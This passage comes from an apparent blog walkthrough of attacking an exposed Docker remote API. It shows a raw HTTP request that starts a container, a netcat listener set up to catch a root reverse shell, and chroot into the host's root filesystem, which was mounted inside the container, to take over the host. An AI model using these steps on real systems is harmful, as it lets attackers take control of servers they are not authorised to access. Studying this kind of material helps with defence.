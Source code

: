 Last but not least, starting the container:
```http
POST /containers/89a1eeb4c9a48a4d3a7bc300fc0b6164d32f2bd65b84e15ef60954b8bb38125d/start HTTP/1.1
Host: 10.0.5.10:4000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 2
{}
```
Make sure that you set up a [netcat](http://netcat.sourceforge.net/) listener on your server to receive the reverse TCP connection before starting the container.

A success response will typically look like the following:
```http
HTTP/1.1 204 No Content
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:56:16 GMT
Content-Type: application/json
Connection: Close
```
And we should be receiving a new connection with a root reverse shell. Hurraaay!
<img src="https://github.com/fusionx3/fusionx3.github.io/blob/master/images/docker_2.png?raw=true" width="800" height="200" />


**Don't do the "root dance" just yet, as we're still confined to the container.**

<br>
## **Escalating to the Host's Root**

Now, to the fun part! As mentioned above, we _mapped_ the host's root directory to a directory inside the container, which we called "hostroot". So, by simply nagivating to this directory, we are able to view and edit the entire filesystem of the **host**.

`cd /root/hostroot`

For more convenience and to avoid getting confused and accidentally browse files on the container rather than the host, we can use _chroot_ command to change the current root directory:

`chroot /root/hostroot`
